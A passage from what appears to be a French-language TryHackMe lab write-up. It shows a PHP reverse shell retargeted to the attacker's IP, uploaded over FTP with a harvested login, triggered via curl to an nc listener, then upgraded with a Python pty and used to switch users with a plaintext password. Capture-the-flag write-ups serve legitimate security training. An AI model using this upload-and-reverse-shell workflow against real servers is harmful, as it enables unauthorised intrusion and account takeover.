 ```bash
--
printit("Successfully opened reverse shell to $ip:$port");


tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/192.168.0.147/10.9.228.66/g' shell.php 
tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/80/1234/g' shell.php 

tim@kali:~/Bureau/tryhackme/write-up$ ftp hacked.thm
Connected to hacked.thm.
220 Hello FTP World!
Name (hacked.thm:tim): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (137.8059 MB/s)

```

On se connect sur le serveur FTP.  
On récupère le shell.   
On met notre adresse IP.   
On remet notre shell modifié  sur le serveur FTP.   

**Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.**

```bash
221 Goodbye.
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://hacked.thm/shell.php
```

On écoute sur le port 1234 pour se connecter au shell.    
On exécute le shell.   

**Become root!**

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.248.186] 45118
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:00:05 up 27 min,  0 users,  load average: 0.00, 0.11, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$ 

su jenny
Password: 987654321

jenny@wir3:/$ sudo -l
```